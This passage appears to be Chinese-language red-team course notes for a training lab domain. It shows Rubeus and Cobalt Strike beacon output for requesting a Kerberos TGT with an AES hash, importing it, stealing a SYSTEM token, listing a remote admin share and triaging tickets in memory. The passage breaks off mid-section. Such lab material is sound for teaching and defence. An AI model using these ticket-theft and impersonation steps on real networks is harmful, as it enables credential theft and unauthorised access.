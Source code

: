 [*] Action: Ask TGT
[*] Showing process : False
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 3044
[+] LUID            : 0x85a103

[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.17.71)
[*] Using aes256_cts_hmac_sha1 hash: a561a175e395758550c9123c748a512b4b5eb1a211cbd12a1b139869f0c94ec1
[*] Building AS-REQ (w/ preauth) for: 'dev.cyberbotic.io\jking'
[*] Target LUID : 8757507
[+] TGT request successful!
[*] base64(ticket.kirbi):

      [...ticket...]

[*] Target LUID: 0x85a103
[+] Ticket successfully imported!

  ServiceName           :  krbtgt/DEV.CYBERBOTIC.IO
  ServiceRealm          :  DEV.CYBERBOTIC.IO
  UserName              :  jking
  UserRealm             :  DEV.CYBERBOTIC.IO
  StartTime             :  3/4/2021 12:48:16 PM
  EndTime               :  3/4/2021 10:48:16 PM
  RenewTill             :  3/11/2021 12:48:16 PM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType               :  aes256_cts_hmac_sha1
  Base64(key)           :  Jr93ezQ6z+rc0/1h30UXaGxVkRLVsWSl9mG0nNeXuTU=

beacon> steal_token 3044
[+] Impersonated NT AUTHORITY\SYSTEM

beacon> ls \\srv-2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
```


# Extracting Kerberos Tickets

从内存中提取TGT


列出内存中的TGT
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe triage

Action: Triage Kerberos Tickets (All Users)

[*] Current LUID    : 0x3e7

 ------------------------------------------------------------------------------------------------------------------ 
 | LUID    | UserName                     | Service                                       | EndTime               |
 ------------------------------------------------------------------------------------------------------------------ 
 | 0x462eb | jking @ DEV.CYBERBOTIC.IO    | krbtgt/DEV.CYBERBOTIC.IO                      | 5/12/2021 12:34:03 AM |
 | 0x25ff6 | bfarmer @ DEV.CYBERBOTIC.IO  | krbtgt/DEV.CYBERBOTIC.IO                      | 5/12/2021 12:33:41 AM |
 ------------------------------------------------------------------------------------------------------------------
```

使用 ```/service``` 和 ```/luid```参数限制提取的TGT的数量和类型
```